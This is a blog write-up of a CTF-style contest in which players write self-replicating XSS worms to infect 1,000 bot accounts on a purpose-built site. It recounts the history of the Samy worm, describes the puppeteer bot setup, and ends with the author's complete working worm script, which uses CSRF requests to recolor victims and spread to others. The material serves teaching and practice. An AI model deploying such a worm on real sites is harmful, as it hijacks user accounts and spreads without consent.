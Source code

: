 ```yaml
---
layout: post
title: "XSSworm.dev ~ Self-replication contest [write-up]"
date: 2020-12-01 00:00:00 -0000
categories: ['Ethical hacking', 'Tools']
tags: [XSS, worm]
author: vavkamil
---
```


tl;dr: I created "CTF" style challenge for our **[OWASP Czech Chapter Virtual Meeting](https://www.meetup.com/owasp-czech-republic-meetup-group/events/274616231/)**. The goal was to write an XSS worm and score points by infecting 1k virtual users. You can find the source code [here](https://github.com/vavkamil/XSSworm.dev) and read the details in this post.

---

When the whole covid-19 thing started, I was somehow interested in looking at various coronavirus world maps and watching the exponential growth of the pandemic unfold. It reminded me of the (in)famous MySpace; "[Samy worm](https://samy.pl/myspace/tech.html)" by [Samy Kamkar](https://en.wikipedia.org/wiki/Samy_Kamkar). For those of you who never heard about it, it was the first publicly released self-propagating cross-site scripting worm, onto MySpace, in 2005. The worm was able to infect over one million users had run the payload in one day.

Since then, we have seen some other XSS worms, for example, on Yahoo, Twitter or Orkut. But nothing at the scale of The MySpace worm.

In 2008, [@RSnake](https://twitter.com/rsnake?lang=en) published "*[Diminutive XSS Worm Replication Contest](https://web.archive.org/web/20080210014614/http://sla.ckers.org/forum/read.php?2,18790,18790)*" on sla.ckers.org. It was an awesome idea, but there was some [backslash](https://forums.theregister.com/forum/all/2008/01/05/worm_replication_contest/) as well :(

But why am I talking about this? Well, in 2008, I was 12 years old. I didn't know any English yet, but I was lucky enough to be mentored by the best hackers in the Czechia at the time. Couple of months after the RSnake's contest, one member of our community took the idea and created an interface where we could test our XSS worms and compete with others. It looked like this:

![](/assets/img/2020/12/skola.png)

There were 200 bot accounts and we (~4 people) scored points by infecting them with our worms and marking them with our color & nick via CSRF. You can still find the pieces of the original web archived [here](https://web.archive.org/web/20080320190901/http://xsscontest.xf.cz/?action=stats&PHPSESSID=e8b6a4ab2a69f128ed44fa933bb7584e) and the XSS worm source [here](https://web.archive.org/web/20080717202916/http://skola.security-portal.cz/[4194]-XSS-CONTEST-WARRIOR_0x13.txt). It may sound weird, but this "contest" is one of my happiest childhood memories :)

So one evening, when I was checking the coronavirus map, I had a big flashback and immediately started coding the remastered version. The things is, I'm not a developer, so it took quite some time. In May 2020, I had a working Proof of Concept, which looked like this:

![](/assets/img/2020/12/challenge-poc.png)

At that point, I realized that it's *scalable* and I might be able to pull it off and write a CTF style contest for our upcoming OWASP Czech Chapter meeting. I did some research and decided to go with a simple Python Flask application and a cluster of puppeteer workers for the bots.

Then the situation with covid got worse, and we had to postpone the OWASP meeting. We had to postpone multiple times and eventually cancel the whole thing because of the lockdown. On the bright side, I had plenty of time for coding and polishing. So how does it work?

![](/assets/img/2020/12/web.png)

It's somehow simple. The user will register with the nickname and team color. They are then presented with a simple interface to send messages to bots. But here is a catch, each user has a limit of 13 messages which could be sent. Based on the swagger documentation, they need to write the XSS worm, which will leverage two CSRFs. One to change the bot's color and the other to self propagate via the bot's unlimited private messages. The point of a limited number of messages is to force the users to design an efficient infection algorithm, which will spread exponentially.

There is a grid of 1k boxes, which helps to visualize the bots. If they are infected, and by whom. Users are scoring points by infecting and reinfecting the bots and marking them with their team color.

![](/assets/img/2020/12/example.png)

The puppeteer cluster is then reading the last received messages of each bot in a random sequence every X minutes. The cluster code looks like this, it's just going through the array in random order, authenticated with cookies:

```
const { Cluster } = require('puppeteer-cluster');

(async () => {
  const cluster = await Cluster.launch({
    concurrency: Cluster.CONCURRENCY_CONTEXT,
    maxConcurrency: 5,
    // puppeteerOptions: { headless: false },
    // puppeteerOptions: { args: ['--no-sandbox'] },
    timeout: 666,
    monitor: true,
  });

  await cluster.task(async ({ page, data }) => {
    const { url, id } = data;
    await page.setCookie({
      'value':id,
      'domain': 'xssworm.dev',
      'expires': Date.now() / 1000 + 10,
      'name': '31p475~Yr37748-35r0h~7c3rr0C-ID',
      'httpOnly': true
    });
    await page.setCookie({
      'value':'correct-horse-battery-staple',
      'domain': 'xssworm.dev',
      'expires': Date.now() / 1000 + 10,
      'name': 'secret',
      'httpOnly': true
    });
    await page.goto(url);
    await page.waitFor(666);
    //const screen = await page.screenshot();
    // Store screenshot, do something else
  });

  var array = Array.from({length: 1001}, (_, i) => [i, Math.random()]).sort((a, b) => a[1] - b[1]).map(([n, r]) => n)
  for (var i = 0; i < array.length; i++) {
    //console.log(array[i]);
    var url = "https://xssworm.dev/read-message?id="+array[i];
    cluster.queue({url, id:""+array[i]+""});
  // many more pages
  }

  await cluster.idle();
  await cluster.close();
})();
```

There are some basic rules for users. They should be able to write the self-propagating code in just 13 tries. Once their worm hits exponential growth, they should be able to infect most of the victims.

![](/assets/img/2020/12/rules.png)

After the registration, users are present with Swagger. They were supposed to write a code, which will send two POST requests, one to change to the color of the victim, the other to replicate its code and spread to another victim. The tricky part was *application/x-www-form-urlencoded*, as most of the contestants struggled to get the encoding right, so either the '+' sign was stripped, or the '#' representing hex value of the color was double encoded.

![](/assets/img/2020/12/swagger.png)

Only one player was able to write the functional self-spreading XSS worm in time and eventually won the whole competition. They designed three different algorithms, as they could register again and resend the updated version to 13 victims.

![](/assets/img/2020/12/interface.png)

There is a lot of things to improve in my code. I used a rather strict Content Security Policy. The whole deployment should be in docker. For more experienced users, XSS protection to bypass would be ideal. The one thing that I struggled with the most was how to prevent a race condition and how to protect the number of messages that the user can send :( But anyway, I'm glad that people enjoyed the challenge, even in those hard times.

Here you can check my Proof of Concept of the worm:

```
<script id="xss_worm">

	// XSS worm .dev
	// Self-replication contest
	// Proof of Concept v1.0

	var victims = 1000;
	var team_color = "#550bb1";
	var url = "https://xssworm.dev";
	var infection_code = "<script id=\"xss_worm\">"+self_propagation()+"<\/script>";

	infect_victim(team_color);

	while (true) {
		var victim_id = get_random_victim(victims);
		spread_infection(victim_id,infection_code);
	}

	function get_random_victim(accounts_count) {
		return Math.floor((Math.random() * accounts_count) + 1);
	}

	function infect_victim(color) {
		var xhr = new XMLHttpRequest();
		var params = "color="+color;
		xhr.open("POST", url+"/update", true);
		xhr.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
		xhr.send(params);
	}

	function self_propagation(){
		return document.getElementById("xss_worm").innerHTML;
	}

	function spread_infection(id,infection_code) {
		var xhr = new XMLHttpRequest();
		var params = "id="+id+"&msg="+encodeURIComponent(infection_code);
		xhr.open("POST", url+"/send-message", true);
		xhr.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
		xhr.send(params);
	}

</script>
```

You can check and try [the website](https://xssworm.dev), as I will keep the infrastructure alive for a while, or you can deploy it locally, as the whole thing is open-source. I'm a little bit ashamed of my programming skills, but here you go: [https://github.com/vavkamil/XSSworm.dev](https://github.com/vavkamil/XSSworm.dev)
